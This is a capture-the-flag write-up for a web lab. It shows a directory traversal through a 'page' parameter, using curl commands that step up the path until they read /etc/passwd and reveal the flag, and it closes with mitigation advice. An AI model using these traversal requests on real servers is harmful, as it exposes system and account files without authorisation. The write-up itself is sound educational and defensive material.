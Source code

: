 
## Exploit: Directory manipulation

### Enumeration

The page parameter appears to be vulnerable to file path manipulation attacks.  The payload ./ was submitted in the page parameter. This returned the same content as the base request. The payload .../ was then submitted, and this returned a different response. This indicates that the application may be vulnerable to file path manipulation.  

> From burp suite

### Solution
The `page` query parameter dictates what page to be rendered by specifying the file path to the source code. This is vulnerable as the user is able to request for files outside the files meant to be served. 

The site gives a special message when such request is made

```
(base) jun@jun-Latitude-5430:~/Downloads/Postman$ curl $TARGET_IP/?page=../../../ | grep alert
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  6925    0  692<script>alert('Nope..');</script><!DOCTYPE HTML>
5    0     0  4578k      0 --:--:-- --:--:-- --:--:-- 6762k
(base) jun@jun-Latitude-5430:~/Downloads/Postman$ curl $TARGET_IP/?page=../../../../ | grep alert
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  6926    0  6926    0     0  6148k      0 --:--:-- --:--:-- --:--:-<script>alert('Almost.');</script><!DOCTYPE HTML>
- 6763k
```


Upon reaching a certain depth, we get a fixed message when we go further

```
(base) jun@jun-Latitude-5430:~/Downloads/Postman$ curl http://localhost:8080/?page=../../../../../../../../../../ | grep alert
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  6940    0  6940    0     0  5332k      0 <script>alert('You can DO it !!!  :]');</script><!DOCTYPE HTML>
--:--:-- --:--:-- --:--:-- 6777k

```

In linux, the `/etc/passwd` contains information about user accounts, hence it was attempted, and we get the flag

```
(base) jun@jun-Latitude-5430:~/Downloads/Postman$ curl http://localhost:8080/?page=../../../../../../../../../../etc/passwd | grep alert
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  7014    0  7014    0     0  5157k      0 --:--:--<script>alert('Congratulaton!! The flag is : b12c4b2cb8094750ae121a676269aa9e2872d07c06e429d25a63196ec1c8c1d0 ');</script><!DOCTYPE HTML>
 --:--:-- --:--:-- 6849k
```

> The flag is `b12c4b2cb8094750ae121a676269aa9e2872d07c06e429d25a63196ec1c8c1d0`

### Mitigation
- Deploy site pages in a chroot jail or a container so sensitive files wont be compromised
- Validate request path in rendering engine 

